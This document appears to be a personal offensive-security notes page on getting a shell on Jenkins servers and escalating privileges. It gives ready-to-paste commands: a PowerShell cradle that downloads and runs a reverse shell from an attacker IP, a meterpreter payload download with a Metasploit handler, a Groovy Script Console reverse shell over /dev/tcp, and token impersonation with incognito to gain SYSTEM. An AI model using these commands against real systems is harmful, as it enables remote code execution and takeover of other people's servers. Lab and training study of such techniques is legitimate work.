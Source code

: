 ```yaml
---
title: Jenkins 👨‍🎓
---
```

![](Pasted%20image%2020240512182145.png)

## Gaining a reverse shell

### For Windows

1. Go to `Jenkins >> New Item`
2. Create a new `Freestyle project`
3. Go to `Build section` and select `Execute Windows batch command`:

![](Pasted%20image%2020240512180945.png)

4. Create in your local machine the `.ps1` reverse shell.
	- This shell is already in  [Reverse shells 👾](reverse_shells.md)
5. Initialize the python server for the script to download
6. now paste the following command in Jenkins:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PYTHON_PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress YOUR_IP -Port PYTHON_PORT
```

7. now go to `Build Now` int he build you created

==You will receive the shell pretty fast==

![](Pasted%20image%2020240512182102.png)

#### Switch to a meterpreter

1. Generate a Windows meterpreter reverse shell using [Msfvenom 🕸️](/notes/Tools/msfvenom.md) (*check the command in the note*)
2. After creating the payload, download it into the machine with:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://YOUR_IP:PYTHON_PORT/SHELL.exe','SHELL.exe')"
```

3. Start Metasploit with `msfconsole -q`
4. Ensure the handler is set up in Metasploit:

```shell
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT your_port 
run
```

5. Execute the reverse shell in the victim's machine with:

```shell
Start-Process SHELL.exe
```

## For Linux

Go to `Jenkins` >> `Manage Jenkins` and click on `Script Console`

![](Pasted%20image%2020240531163514.png)

Now execute the following command:

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/YOUR_IP/YOUR_PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![](Pasted%20image%2020240531163709.png)

## Privilege Escalation with Token Impersonation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- User SIDs(security identifier)
- Group SIDs
- Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:
- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

- View all the privileges using `whoami /priv`

Now, in Metasploit run:

```shell
load incognito
# run first "use incognito" if not installed
```

To check which tokens are available, enter:

```shell
list_tokens -g

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
...
```

Impersonate the `BUILTIN\Administrators` token with:

```shell
 impersonate_token "BUILTIN\Administrators"
 # Confirm with
 getuid
```

Now migrate to a process with correct permissions with:

```shell
migrate PID_OF_PROCESS
```

Now you are `System32`

